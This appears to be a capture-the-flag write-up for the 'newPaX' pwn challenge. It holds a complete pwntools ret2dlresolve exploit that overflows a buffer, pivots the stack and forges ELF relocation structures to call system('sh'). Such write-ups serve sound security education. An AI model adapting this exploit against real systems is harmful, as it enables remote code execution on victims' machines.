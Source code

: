 # Pwn Challenge

## Name: newPaX

### Description:

`
 Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.  
`

**Author: gr4n173**

#### nc pwn.darkarmy.xyz 5001

**Solution:**

Main aim of this challenge was to make you familiar with the `advance ret2libc technique` where you have to call the `dynamic linker's dl-resolve() function` and pwn the challenge. But I didn't check for the unintended way so some of the teams have solved unintended way.
  

**Exploit:**


```
from pwn import *
context.terminal = ['tmux', 'new-window']                                                  
                                                                                  
r = process("./newPaX")                                                       
#r= remote('34.126.91.169', 6001)


elf = ELF("./newPaX")                                                         
                                                                                  
#r= gdb.debug('./newPaX') 

resolver = 0x80483e0 #disass vuln; disass <read@plt> #0x80482F0    #push link_map and call dl_resolve

#Finding the writable address throught `vmmap`
buf = 0x0804a900  

#ROPGadget --binary newPaX | grep "leave"
leave_ret = 0x080484f5 

#readelf -d newPaX
SYMTAB = 0x80481cc
STRTAB = 0x804829c 
JMPREL = 0x8048378 

#Overflowing the buffer at 48 i.e. [40+(8)for 64bit]= 48 bytes
payload = ""
payload += "A"*48
payload += p32(buf)   #stack pivoting. (esp = buff)

#Calling read(0,buf,0x80) 
payload += p32(elf.plt["read"]) 
payload += p32(leave_ret) 
payload += p32(0) 
payload += p32(buf) 
payload += p32(0x80)

# Compute offsets and forged structures
forged_ara = buf + 0x14
rel_offset = forged_ara - JMPREL
elf32_sym = forged_ara + 0x8 #size of elf32_sym

align = 0x10 - ((elf32_sym - SYMTAB) % 0x10) #align to 0x10

elf32_sym = elf32_sym + align
index_sym = (elf32_sym - SYMTAB) / 0x10

r_info = (index_sym << 8) | 0x7

elf32_rel = p32(elf.got['read']) + p32(r_info)
st_name = (elf32_sym + 0x10) - STRTAB
elf32_sym_struct = p32(st_name) + p32(0) + p32(0) + p32(0x12)

# dl-resolve function call part where you create fake ebp and then returning to dl-resolve and then framing the structure to pwn the shell.

payload2 = 'AAAA'      
payload2 += p32(resolver)        
payload2 += p32(rel_offset)      
payload2 += 'AAAA'              
payload2 += p32(buf+100)         
payload2 += elf32_rel            
payload2 += 'A' * align
payload2 += elf32_sym_struct     
payload2 += "system\x00"
p = (100 - len(payload2))
payload2 += 'A' * p             
payload2 += "sh\x00"
p = (0x80 - len(payload2))
payload2 += "A" * p              
pause()
r.sendline(payload)
pause()
r.send(payload2)
r.interactive()

```

I have attached the exploit and comment a short description for this challenge where I have used the `ret2dlresolve` technique. If you want to know more detail about this technique than you can read the research paper of this bug which was found in early 2000.
  
[Advanced return-into-lib(c) exploits PaX case study](http://phrack.org/issues/58/4.html). 
